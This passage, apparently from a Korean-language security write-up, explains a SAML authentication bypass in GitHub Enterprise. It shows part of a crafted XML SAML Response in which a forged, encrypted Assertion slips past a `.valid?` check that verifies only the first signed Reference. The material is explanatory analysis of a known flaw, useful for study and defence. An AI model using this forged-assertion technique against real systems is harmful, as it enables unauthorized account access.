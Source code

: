 ```jsx
          <Signature>

            <SignedInfo>
              <Refernce URI="#789"></Refernce> [2]
            </SignedInfo>
          </Signature>
        </Assertion>
      </Response>
    </Object>
  </Signature>
---- THIS WILL BE ENCRYPTED ----
  <Assertion ID="789"> [3]
    <Signature>

      <SignedInfo>
        <Refernce URI="#789"></Refernce> [3]
      </SignedInfo>
    </Signature>
  </Assertion>
---- THIS WILL BE ENCRYPTED ----
</Response>
```

[1] 은 원본 Response 이기 때문에 검증을 통과하는 DigestValue 와 서명이 포함되어 있습니다.

[3] 은 변조된 Assertion 을 구성해서 GitHub Enterprise 의 공개키로 암호화하여 서버에서 복호화할 수 있게 합니다.

변조된 SAML Response 를 로드할 때에는 암호화된 Assertion 을 사용하도록 되어 있지만  `.valid?` 메서드는 처음으로 등장하는 Reference URI 의 Signature 를 선택하여 서명 검증을 수행합니다. 즉, [1] 이 검증에 사용이 된다는 것이죠.

이를 이용해 서명 검증을 우회할 수 있습니다.



## Reference

- https://projectdiscovery.io/blog/github-enterprise-saml-authentication-bypass